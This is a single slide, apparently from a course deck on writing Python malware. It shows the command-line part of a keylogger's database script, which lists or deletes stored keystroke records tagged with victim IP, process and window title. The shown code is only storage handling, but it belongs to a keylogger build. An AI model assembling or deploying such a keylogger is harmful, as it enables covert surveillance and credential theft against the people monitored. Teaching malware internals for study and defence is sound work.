

Python Malwares (cont.)
Writing a Keylogger (cont.)
If the database script is run directly, it can be fed two options (show, delete) database entries.
...
if __name__ == "__main__":
    if(len(sys.argv) != 2):
        print(f"""
        python {sys.argv[0]} --show-keylogs
        python {sys.argv[0]} --delete-keylogs
        """)
    ...
    else:
        conn = create_db(DATABASE)
        init_db(conn)
        if(sys.argv[1] == "--show-keylogs"):
            keylogs = get_keylogs(conn)
            for row in keylogs:
                kid, ip, exec_name, pid, window_title, keys = row
                print(f"{kid} - {ip} - {exec_name} - {pid} - {window_title} - {keys}")
        elif(sys.argv[1] == "--delete-keylogs"):
            delete_keylogs_count = delete_keylogs(conn)
            print(f"{delete_keylogs_count} rows have been removed")
    ...
145